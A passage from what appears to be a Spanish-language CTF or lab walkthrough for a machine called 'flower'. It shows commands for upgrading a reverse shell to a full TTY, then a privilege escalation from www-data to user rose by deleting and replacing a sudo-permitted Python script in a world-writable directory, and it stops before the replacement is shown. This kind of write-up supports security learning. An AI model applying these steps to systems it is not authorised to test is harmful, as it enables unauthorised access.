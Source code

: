 ```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user rose

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```

Vemos que podemos ejecutar el binario `python3` respecto a la ruta absoluta del script de `diary.py` como el usuario `rose`.

Vamos a ver que permisos tiene dicha carpeta de la siguiente forma:

```shell
ls -la /home/rose/diary/
```

Info:

```
total 12
drwxrwxrwx 2 rose rose 4096 Nov 30  2020 .
drwxrwxr-x 3 rose rose 4096 Nov 30  2020 ..
-rw-r--r-- 1 rose rose  147 Nov 30  2020 diary.py
```

Vemos que tiene todos los permisos, por lo que podremos eliminar el archivo y poner lo que queramos dentro del mismo, vamos a realizarlo de la siguiente forma:

```shell
rm /home/rose/diary/diary.py
```

Tendremos que confirmarlo con una `y` y una vez eliminado vamos a meter lo siguiente:
